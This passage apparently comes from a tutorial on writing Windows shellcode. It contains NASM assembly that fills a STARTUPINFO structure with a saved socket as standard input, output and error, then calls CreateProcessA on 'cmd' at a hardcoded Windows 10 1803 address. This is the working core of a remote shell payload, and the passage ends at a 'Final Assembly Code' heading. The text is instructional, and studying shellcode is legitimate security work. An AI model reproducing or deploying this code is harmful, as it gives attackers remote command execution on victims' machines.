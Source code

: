 Here we go!

```nasm
push esi		; hStdError - saved socket
push esi		; hStdOutput - saved socket
push esi		; hStdInput -saved socket
push edx		; pReserved2 - NULL	
push edx		; cbReserved2 -NULL
xor eax, eax
inc eax
rol eax, 8			
push eax		; dwFlags - STARTF_USESTDHANDLES 0x00000100
push edx		; dwFillAttribute - NULL
push edx		; dwYCountChars - NULL
push edx		; dwXCountChars - NULL
push edx		; dwYSize - NULL
push edx		; dwXSize - NULL
push edx		; dwY - NULL
push edx		; dwX - NULL
push edx		; pTitle - NULL
push edx		; pDesktop - NULL
push edx		; pReserved - NULL
xor eax, eax
add al, 44
push eax		; cb - size of structure
mov eax, esp		; pStartupInfo
```



Now we are finally ready to call CreateProcessA. 

```nasm
push ebx		; pProcessInfo
push eax		; pStartupInfo
push edx		; CurrentDirectory - NULL
push edx		; pEnvironment - NULL
push edx		; CreationFlags - 0
xor eax, eax
inc eax
push eax		; InheritHandles -TRUE - 1
push edx		; pThreadAttributes -NULL
push edx		; pProcessAttributes - NULL

push ecx		; pCommandLine - pointer to "cmd"
push edx		; ApplicationName - NULL
	
mov ebx, 0x74f36630	; CreateProcessA - Win10 1803
call ebx

```


### Final Assembly Code
